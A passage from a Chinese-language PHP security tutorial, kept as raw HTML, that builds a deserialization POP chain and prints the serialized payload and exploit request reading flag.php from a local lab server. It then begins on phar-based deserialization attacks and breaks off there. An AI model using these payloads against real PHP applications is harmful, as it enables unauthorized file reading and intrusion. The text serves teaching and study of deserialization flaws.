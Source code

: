   &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">$this</span>-&gt;test = <span class="hljs-keyword">$this</span>-&gt;str;
  &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">echo</span> <span class="hljs-keyword">$this</span>-&gt;test;
  &nbsp; &nbsp; }
  }
  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Show</span></span>{
  &nbsp; <span class="hljs-keyword">public</span> $str;
  &nbsp; <span class="hljs-keyword">public</span> $source;
  &nbsp; <span class="hljs-keyword">public</span> <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__toString</span>(<span class="hljs-params"></span>)</span>{
  &nbsp; &nbsp; &nbsp; &nbsp; $content = <span class="hljs-keyword">$this</span>-&gt;str[<span class="hljs-string">'str'</span>]-&gt;source;
  &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-keyword">return</span> (<span class="hljs-keyword">string</span>)$content;
  &nbsp; &nbsp; }
  }
  <span class="hljs-class"><span class="hljs-keyword">class</span> <span class="hljs-title">Test</span></span>{
  &nbsp; <span class="hljs-keyword">public</span> $file;
  &nbsp; <span class="hljs-keyword">public</span> $params;
    <span class="hljs-comment">// 原方法的定义此处省略，因为它对生成序列化字符串没有影响</span>
  }
  $test = <span class="hljs-keyword">new</span> Test();
  $test-&gt;params = <span class="hljs-keyword">array</span>(<span class="hljs-string">'source'</span>=&gt;<span class="hljs-string">'/var/www/html/flag.php'</span>);
  $show = <span class="hljs-keyword">new</span> Show();
  $show-&gt;str = <span class="hljs-keyword">array</span>(<span class="hljs-string">'str'</span>=&gt;$test);
  $output = <span class="hljs-keyword">new</span> Output($show);
  <span class="hljs-keyword">echo</span> serialize($output);
<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="29356">执行后得到如下序列化字符串：</p>
<pre class="lang-java" data-nodeid="29357"><code data-language="java">O:<span class="hljs-number">6</span>:<span class="hljs-string">"Output"</span>:<span class="hljs-number">2</span>:{s:<span class="hljs-number">4</span>:<span class="hljs-string">"test"</span>;N;s:<span class="hljs-number">3</span>:<span class="hljs-string">"str"</span>;O:<span class="hljs-number">4</span>:<span class="hljs-string">"Show"</span>:<span class="hljs-number">2</span>:{s:<span class="hljs-number">3</span>:<span class="hljs-string">"str"</span>;a:<span class="hljs-number">1</span>:{s:<span class="hljs-number">3</span>:<span class="hljs-string">"str"</span>;O:<span class="hljs-number">4</span>:<span class="hljs-string">"Test"</span>:<span class="hljs-number">2</span>:{s:<span class="hljs-number">4</span>:<span class="hljs-string">"file"</span>;N;s:<span class="hljs-number">6</span>:<span class="hljs-string">"params"</span>;a:<span class="hljs-number">1</span>:{s:<span class="hljs-number">6</span>:<span class="hljs-string">"source"</span>;s:<span class="hljs-number">22</span>:<span class="hljs-string">"/var/www/html/flag.php"</span>;}}}s:<span class="hljs-number">6</span>:<span class="hljs-string">"source"</span>;N;}}
</code></pre>
<p data-nodeid="29358"><strong data-nodeid="29616">5. 将生成的序列化字符串传递给漏洞参数实现利用</strong></p>
<p data-nodeid="29359">漏洞参数是 GET 参数 str，因此可以如此构造请求：</p>
<pre class="lang-java" data-nodeid="29360"><code data-language="java">http:<span class="hljs-comment">//127.0.0.1/vul.php?str=O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}</span>
</code></pre>
<p data-nodeid="29361">整个过程可能有点绕，但 POP 链的利用技术就是如此，需要你对目标程序进行全方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。</p>
<h4 data-nodeid="29362">3.phar 文件攻击</h4>
<p data-nodeid="29363">在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题“It's a PHP unserialization vulnerability Jim, but not as we know it”，介绍了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是 phar 文件中序列化存储用户自定义的 meta-data，在解析该数据时就必然需要反序列化，配合 phar:// 伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt 文件内容的反序列化操作：</p>